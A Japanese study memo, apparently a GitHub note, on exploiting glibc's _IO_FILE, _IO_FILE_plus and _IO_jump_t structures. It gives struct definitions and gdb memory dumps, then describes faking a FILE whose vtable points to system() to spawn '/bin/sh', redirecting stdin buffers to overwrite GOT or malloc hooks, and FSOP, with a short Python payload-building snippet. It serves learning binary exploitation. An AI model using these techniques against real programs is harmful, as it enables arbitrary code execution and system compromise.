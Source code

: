 ファイル・ポインタや標準入出力に関連する_IO_FILE構造体を利用したexploitテクニックのメモ。

# _IO_FILE構造体とその関連

_IO_FILE、_IO_FILE_plus、_IO_jump_tの3つの構造体の定義とメモリーレイアウトを理解しておく。

* _IO_FILE
```
struct _IO_FILE {
  int _flags;           /* High-order word is _IO_MAGIC; rest is flags. */
#define _IO_file_flags _flags

  /* The following pointers correspond to the C++ streambuf protocol. */
  /* Note:  Tk uses the _IO_read_ptr and _IO_read_end fields directly. */
  char* _IO_read_ptr;   /* Current read pointer */
  char* _IO_read_end;   /* End of get area. */
  char* _IO_read_base;  /* Start of putback+get area. */
  char* _IO_write_base; /* Start of put area. */
  char* _IO_write_ptr;  /* Current put pointer. */
  char* _IO_write_end;  /* End of put area. */
  char* _IO_buf_base;   /* Start of reserve area. */
  char* _IO_buf_end;    /* End of reserve area. */
  /* The following fields are used to support backing up and undo. */
  char *_IO_save_base; /* Pointer to start of non-current get area. */
  char *_IO_backup_base;  /* Pointer to first valid character of backup area */
  char *_IO_save_end; /* Pointer to end of non-current get area. */

  struct _IO_marker *_markers;

  struct _IO_FILE *_chain;

  int _fileno;
#if 0
  int _blksize;
#else
  int _flags2;
#endif
  _IO_off_t _old_offset; /* This used to be _offset but it's too small.  */

#define __HAVE_COLUMN /* temporary */
  /* 1+column number of pbase(); 0 is unknown. */
  unsigned short _cur_column;
  signed char _vtable_offset;
  char _shortbuf[1];

  /*  char* _save_gptr;  char* _save_egptr; */

  _IO_lock_t *_lock;
#ifdef _IO_USE_OLD_IO_FILE
};

```

* _IO_FILE_plus
```
struct _IO_FILE_plus
{
  FILE file;
  const struct _IO_jump_t *vtable;
};
```

* _IO_jump_t 関数ポインタのテーブルになっている
```
struct _IO_jump_t
{
    JUMP_FIELD(size_t, __dummy);
    JUMP_FIELD(size_t, __dummy2);
    JUMP_FIELD(_IO_finish_t, __finish);
    JUMP_FIELD(_IO_overflow_t, __overflow);
    JUMP_FIELD(_IO_underflow_t, __underflow);
    JUMP_FIELD(_IO_underflow_t, __uflow);
    JUMP_FIELD(_IO_pbackfail_t, __pbackfail);
    /* showmany */
    JUMP_FIELD(_IO_xsputn_t, __xsputn);
    JUMP_FIELD(_IO_xsgetn_t, __xsgetn);
    JUMP_FIELD(_IO_seekoff_t, __seekoff);
    JUMP_FIELD(_IO_seekpos_t, __seekpos);
    JUMP_FIELD(_IO_setbuf_t, __setbuf);
    JUMP_FIELD(_IO_sync_t, __sync);
    JUMP_FIELD(_IO_doallocate_t, __doallocate);
    JUMP_FIELD(_IO_read_t, __read);
    JUMP_FIELD(_IO_write_t, __write);
    JUMP_FIELD(_IO_seek_t, __seek);
    JUMP_FIELD(_IO_close_t, __close);
    JUMP_FIELD(_IO_stat_t, __stat);
    JUMP_FIELD(_IO_showmanyc_t, __showmanyc);
    JUMP_FIELD(_IO_imbue_t, __imbue);
};
```

_IO_FILE、_IO_FILE_plus、_IO_jump_tの3つの繋がりはこの図が分かり易い。
![glibc-file-vtable](https://user-images.githubusercontent.com/9530961/39658505-3ae004b0-5050-11e8-9826-0ba092a002fd.png)

各々の_IO_FILEは_IO_list_allから連なるlinked listになっている。
![2018-05-05 11 14 51](https://user-images.githubusercontent.com/9530961/39658801-a1d1666e-5055-11e8-9b73-9ad947e3825d.png)

メモリーレイアウトは以下の通り。

* stdoutの_IO_FILEメモリーレイアウト
```
0x7ffff7dd4400 <_IO_2_1_stdout_>:	0x00000000fbad2887	0x00007ffff7dd4483 flags / _IO_read_ptr
0x7ffff7dd4410 <_IO_2_1_stdout_+16>:	0x00007ffff7dd4483	0x00007ffff7dd4483 _IO_read_end / _IO_read_base
0x7ffff7dd4420 <_IO_2_1_stdout_+32>:	0x00007ffff7dd4483	0x00007ffff7dd4483 _IO_write_base / _IO_write_ptr
0x7ffff7dd4430 <_IO_2_1_stdout_+48>:	0x00007ffff7dd4483	0x00007ffff7dd4483 _IO_write_end / _IO_buf_base
0x7ffff7dd4440 <_IO_2_1_stdout_+64>:	0x00007ffff7dd4484	0x0000000000000000 _IO_buf_end / _IO_save_base
0x7ffff7dd4450 <_IO_2_1_stdout_+80>:	0x0000000000000000	0x0000000000000000 _IO_backup_base / _IO_save_end
0x7ffff7dd4460 <_IO_2_1_stdout_+96>:	0x0000000000000000	0x00007ffff7dd4640 *_markers / *_chain 次の_IO_FILE structへのポインタ
0x7ffff7dd4470 <_IO_2_1_stdout_+112>:	0x0000000000000001	0xffffffffffffffff _fileno / ?
0x7ffff7dd4480 <_IO_2_1_stdout_+128>:	0x000000000a000000	0x00007ffff7dd59e0 ? / *_lock
0x7ffff7dd4490 <_IO_2_1_stdout_+144>:	0xffffffffffffffff	0x0000000000000000 
0x7ffff7dd44a0 <_IO_2_1_stdout_+160>:	0x00007ffff7dd44e0	0x0000000000000000
0x7ffff7dd44b0 <_IO_2_1_stdout_+176>:	0x0000000000000000	0x0000000000000000
0x7ffff7dd44c0 <_IO_2_1_stdout_+192>:	0x00000000ffffffff	0x0000000000000000
0x7ffff7dd44d0 <_IO_2_1_stdout_+208>:	0x0000000000000000	0x00007ffff7dd26a0 _IO_jump_tへのポインタ
```

* _IO_jump_tのメモリーレイアウト
```
0x7ffff7dd26a0 <_IO_file_jumps>:	0x0000000000000000	0x0000000000000000 __dummy / __dummy2
0x7ffff7dd26b0 <_IO_file_jumps+16>:	0x00007ffff7a8ac80	0x00007ffff7a8b6d0 
0x7ffff7dd26c0 <_IO_file_jumps+32>:	0x00007ffff7a8b480	0x00007ffff7a8c530
0x7ffff7dd26d0 <_IO_file_jumps+48>:	0x00007ffff7a8d6e0	0x00007ffff7a8a500
0x7ffff7dd26e0 <_IO_file_jumps+64>:	0x00007ffff7a8a210	0x00007ffff7a89870
0x7ffff7dd26f0 <_IO_file_jumps+80>:	0x00007ffff7a8caa0	0x00007ffff7a897e0
0x7ffff7dd2700 <_IO_file_jumps+96>:	0x00007ffff7a89710	0x00007ffff7a7e7b0
0x7ffff7dd2710 <_IO_file_jumps+112>:	0x00007ffff7a8a4e0	0x00007ffff7a89ed0
0x7ffff7dd2720 <_IO_file_jumps+128>:	0x00007ffff7a89cd0	0x00007ffff7a897d0
0x7ffff7dd2730 <_IO_file_jumps+144>:	0x00007ffff7a89ec0	0x00007ffff7a8d840
0x7ffff7dd2740 <_IO_file_jumps+160>:	0x00007ffff7a8d850	0x0000000000000000
```



# Exploit
* ファイル・ポインタの上書き

ファイル・ポインタを上書きできる場合、_IO_FILEを偽装し、_IO_jump_tに任意の関数を仕込んでおくにより、fclose(fp)などが呼ばれた時にその関数を実行できる。下の例では、system("/bin/sh")が実行される。なお_IO_FILEのflagsに第一引数（この場合は"/bin/sh¥0"）をセットしておくことが可能。

```
    # fake _IO_FILE
    buf = "/bin/sh\0"
    buf += p(0)*16
    buf += p(addr) # *_lock: 有効なアドレスを入れておく、何でもよいわけじゃないらしい
    buf += p(0)*9
    buf += p(jump_table) # _IO_file_jumpsへのアドレス
    # fake _IO_file_jumps
    buf += p(0)*2
    buf += p(system)*19
```

* _IO_buf_base/_IO_buf_endの上書き

stdinの_IO_buf_base/_IO_buf_endを上書きできる場合、scanf/fgets/gets等の関数の書き込み先をコントロールできる。
下の例だと0x62000に任意のデータを書き込める。書き込み先をGOTやfree_hook/malloc_hookにしておくことにより、one gadget rceなどを仕込むことができる。

```
0x7ffff7dd4640 <_IO_2_1_stdin_>:	0x00000000fbad208b	0x00007ffff7dd46c3
0x7ffff7dd4650 <_IO_2_1_stdin_+16>:	0x00007ffff7dd46c3	0x00007ffff7dd46c3
0x7ffff7dd4660 <_IO_2_1_stdin_+32>:	0x00007ffff7dd46c3	0x00007ffff7dd46c3
0x7ffff7dd4670 <_IO_2_1_stdin_+48>:	0x00007ffff7dd46c3	0x0000000000602000 _IO_write_end / _IO_buf_base
0x7ffff7dd4680 <_IO_2_1_stdin_+64>:	0x0000000000602100	0x0000000000000000 _IO_buf_end / _IO_save_base
0x7ffff7dd4690 <_IO_2_1_stdin_+80>:	0x0000000000000000	0x0000000000000000
0x7ffff7dd46a0 <_IO_2_1_stdin_+96>:	0x0000000000000000	0x0000000000000000
0x7ffff7dd46b0 <_IO_2_1_stdin_+112>:	0x0000000000000000	0xffffffffffffffff
0x7ffff7dd46c0 <_IO_2_1_stdin_+128>:	0x0000000000000000	0x00007ffff7dd59f0
0x7ffff7dd46d0 <_IO_2_1_stdin_+144>:	0xffffffffffffffff	0x0000000000000000
0x7ffff7dd46e0 <_IO_2_1_stdin_+160>:	0x00007ffff7dd4720	0x0000000000000000
0x7ffff7dd46f0 <_IO_2_1_stdin_+176>:	0x0000000000000000	0x0000000000000000
0x7ffff7dd4700 <_IO_2_1_stdin_+192>:	0x0000000000000000	0x0000000000000000
0x7ffff7dd4710 <_IO_2_1_stdin_+208>:	0x0000000000000000	0x00007ffff7dd26a0
```

* FSOP(File Stream Oriented Programming)

angelboy氏の資料に記載のテクニック。
abort()が起きると、_IO_flush_all_lockpにより、_IO_list_allに連なる全てのFILE構造体のjump tableにある__overflowにセットされている関数が実行される。

![2018-05-05 11 35 14](https://user-images.githubusercontent.com/9530961/39658935-7d1046bc-5058-11e8-80fa-a823164fb518.png)

![2018-05-05 11 33 19](https://user-images.githubusercontent.com/9530961/39658922-365108ce-5058-11e8-9e33-5603892bf232.png)

# 参考
* [Play with FILE Structure - Yet Another Binary Exploit Technique](https://www.slideshare.net/AngelBoy1/play-with-file-structure-yet-another-binary-exploit-technique)
* [abusing the FILE structure](https://outflux.net/blog/archives/2011/12/22/abusing-the-file-structure/)
